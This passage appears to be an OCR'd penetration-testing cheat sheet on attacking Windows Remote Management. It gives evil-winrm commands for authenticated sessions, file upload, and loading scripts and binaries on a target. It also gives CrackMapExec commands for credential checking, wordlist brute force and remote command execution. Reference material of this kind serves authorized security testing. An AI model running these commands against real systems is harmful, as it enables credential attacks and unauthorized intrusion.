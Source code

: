     ```bash
    evil-winrm --ip <target_ip> --user <username> --password <password> --scripts <path_to_scripts> --executables <path_to_executables>
    ```
*   **Connect to a host, using SSL:**

    ```bash
    evil-winrm --ip <target_ip> --user <username> --password <password> --ssl --pub-key <path_to_pubkey> --priv-key <path_to_privkey>
    ```
*   **Upload a file to the host:**

    ```bash
    PS > upload <path_to_local_file> <path_to_remote_file>
    ```
*   **Get a list of loaded PowerShell functions:**

    ```bash
    PS > menu
    ```
*   **Load a PowerShell script from the --scripts directory:**

    ```bash
    PS > <script.ps1>
    ```
*   **Invoke a binary on the host from the --executables directory:**

    ```bash
    PS > Invoke-Binary <binary.exe>
    ```

#### \[\[CrackMapExec]]

*   **WinRM Authentication Testing Credentials:**

    ```c
    crackmapexec winrm <target_ip> -u <username> -p `<password>'
    ```
*   **If the SMB port is closed you can also use the flag `-d` DOMAIN to avoid an SMB connection:**

    ```c
    crackmapexec winrm <target_ip> -d <domain> -u <username> -p `<password>'
    ```
*   **Brute Force:** Just check a pair of credentials

    ```c
    crackmapexec winrm <target_ip> -d <domain> -u <username_wordlist> -p `<password_wordlist>'
    ```
*   **Username + Password + CMD command execution:**

    ```c
    crackmapexec winrm <target_ip> -d <domain> -u <username> -p `<password>' -x "whoami"
    ```
*   **Username + Hash + PS command execution:** CrackMapExec won't give you an interactive shell, but it will check if the creds are valid to access WinRM
